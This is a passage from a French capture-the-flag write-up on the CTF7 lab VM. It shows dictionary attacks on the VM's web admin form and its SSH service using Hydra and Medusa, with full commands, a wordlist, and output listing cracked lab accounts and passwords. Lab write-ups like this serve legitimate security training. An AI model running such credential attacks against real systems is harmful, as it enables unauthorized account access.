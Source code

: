 ```console
LosAngelesLakers
Jets4Ever
chuck33
changeme
test
```

## Attaques par dictionnaire sur les services de la VM CTF7

Pour trouver les mots de passe de Brian, d'Alice, de Ruby, de Charles ou encore de Michael, [plusieurs techniques sont possibles](https://repo.zenk-security.com/Reversing%20.%20cracking/Cracking_Passwords_Guide.pdf) : [les attaques par bruteforce](https://en.wikipedia.org/wiki/Brute-force_attack) qui consistent à tester, de manière exhaustive, toutes les combinaisons possibles ; [les attaques par dictionnaire](https://en.wikipedia.org/wiki/Password_cracking) qui consistent à tester un sous-ensemble de mots ou de combinaisons placés dans un fichier texte ; ou bien [les attaques par social engineering](https://en.wikipedia.org/wiki/Social_engineering_(security)), qui visent à accéder à des informations confidentielles par la manipulation de personnes.

L'outil-couteau-suisse Hydra est de sortie pour une attaque par dictionnaire, avec les _credentials_ trouvés précédemment !

```console
root@blinils:~# hydra -L CTF7-users -P CTF7-passwords 192.168.56.103 \
-t 4 -s 8080 http-form-post "/index.php:username=^USER^&password=^PASS^:Invalid"

--snip--
[DATA] attacking http-post-form://192.168.56.103:8080//index.php:username=^USER^&password=^PASS^:Invalid
[8080][http-post-form] host: 192.168.56.103   login: test   password: test
1 of 1 target successfully completed, 1 valid password found
--snip--
```

Et hop, le couple test/test fonctionne sur l'interface d'administration du site, accessible sur le port 8080. Et pour SSH ?

```console
root@blinils:~# hydra -L CTF7-users -P CTF7-passwords -t 4 ssh://192.168.56.103

--snip--
[DATA] max 4 tasks per 1 server, overall 4 tasks, 144 login tries (l:12/p:12), ~36 tries per task
[DATA] attacking ssh://192.168.56.103:22/
1 of 1 target completed, 0 valid passwords found
--snip--
```

Bizarre... je ne sais pour quelle raison Hydra fait chou blanc, alors que d'autres outils comme [Medusa](http://foofus.net/goons/jmk/medusa/medusa.html) ou [Patator](https://github.com/lanjelot/patator) trouvent des mots de passe valides.

```console
root@blinils:~# medusa -h 192.168.56.103 -U CTF7-users -P CTF7-passwords -M ssh -v 4
Medusa v2.2 [http://www.foofus.net] (C) JoMo-Kun / Foofus Networks <jmk@foofus.net>

ACCOUNT FOUND: [ssh] Host: 192.168.56.103 User: brian Password: my2cents [SUCCESS]
ACCOUNT FOUND: [ssh] Host: 192.168.56.103 User: john Password: transformersrule [SUCCESS]
ACCOUNT FOUND: [ssh] Host: 192.168.56.103 User: alice Password: turtles77 [SUCCESS]
ACCOUNT FOUND: [ssh] Host: 192.168.56.103 User: ruby Password: Shelly2012 [SUCCESS]
ACCOUNT FOUND: [ssh] Host: 192.168.56.103 User: leon Password: qwer1234 [SUCCESS]
ACCOUNT FOUND: [ssh] Host: 192.168.56.103 User: julia Password: madrid [SUCCESS]
ACCOUNT FOUND: [ssh] Host: 192.168.56.103 User: michael Password: somepassword [SUCCESS]
ACCOUNT FOUND: [ssh] Host: 192.168.56.103 User: bruce Password: LosAngelesLakers [SUCCESS]
ACCOUNT FOUND: [ssh] Host: 192.168.56.103 User: neil Password: Jets4Ever [SUCCESS]
ACCOUNT FOUND: [ssh] Host: 192.168.56.103 User: charles Password: chuck33 [SUCCESS]
```

